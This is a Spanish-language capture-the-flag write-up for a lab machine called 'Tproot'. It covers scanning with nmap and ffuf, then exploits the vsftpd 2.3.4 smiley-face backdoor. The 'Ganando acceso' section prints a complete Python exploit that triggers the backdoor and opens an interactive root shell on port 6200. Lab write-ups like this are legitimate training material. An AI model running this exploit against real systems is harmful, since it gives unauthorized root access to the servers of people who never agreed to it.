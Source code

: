 ```yaml
---
description: '🧠Dificultad: Muy fácil | 🔓25/07/2025'
---
```


# Tproot

## 🕵️ Reconocimiento

Comenzamos con un escaneo de puertos con `nmap` :

<div align="left"><figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure></div>

Vemos que el login anónimo en el servidor FTP da fallo. El puerto 80 aloja un servidor web con la página por defecto de apache en el directorio raíz. Si le hacemos un listado de directorios, no encontramos nada relevante.

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:FUZZ -u http://$IPTARGET/FUZZ
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si buscamos algún exploit para los puertos encontrados, vemos que existe uno para el puerto `ftp` :

<div align="left"><figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure></div>

Esta versión de `FTP` presenta una vulnerabilidad de manera que si introducimos un nombre de usuario en el login del `FTP`  terminado en `:)` , se abre una backdoor en el puerto 6200 (más [info](https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=33416)).

## 🚪 Ganando acceso

Utilicé un exploit hecho en `python`  con la librería `socket` :

```python
#!/usr/bin/python3

import socket
import argparse
import time
import sys

parser = argparse.ArgumentParser(description='vsftpd 2.3.4 backdoor exploit')
parser.add_argument('-host', dest='host', required=True, help='IP del objetivo')
args = parser.parse_args()

host = args.host
ftp_port = 21
shell_port = 6200

# Paso 1: Enviar usuario malicioso por FTP
print(f"[+] Conectando al FTP en {host}:{ftp_port}")
try:
    s = socket.create_connection((host, ftp_port), timeout=5)
    banner = s.recv(1024).decode()
    print(f"[+] Banner recibido: {banner.strip()}")
    
    s.sendall(b'USER backdoor:)\r\n')
    s.recv(1024)  # leer respuesta

    s.sendall(b'PASS cualquiercosa\r\n')
    s.recv(1024)
    s.close()
except Exception as e:
    print(f"[-] Error al conectar al FTP: {e}")
    sys.exit(1)

# Esperar a que se abra la shell
print("[*] Esperando a que se active la backdoor (puerto 6200)...")
time.sleep(2)

# Paso 2: Conectarse al puerto 6200
print(f"[+] Intentando conexión a {host}:{shell_port}")
try:
    shell = socket.create_connection((host, shell_port), timeout=5)
    print("[+] ¡Conectado! Shell activa. Puedes escribir comandos. Usa 'exit' para salir.\n")

    while True:
        cmd = input("$ ")
        if cmd.strip().lower() == "exit":
            break
        shell.sendall((cmd + "\n").encode())
        time.sleep(0.5)
        data = shell.recv(4096)
        print(data.decode(errors='ignore'))

    shell.close()
except Exception as e:
    print(f"[-] No se pudo conectar al puerto 6200: {e}")
    sys.exit(1)
```

Al ejecutar el exploit, ganamos acceso con una shell como `root` :

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
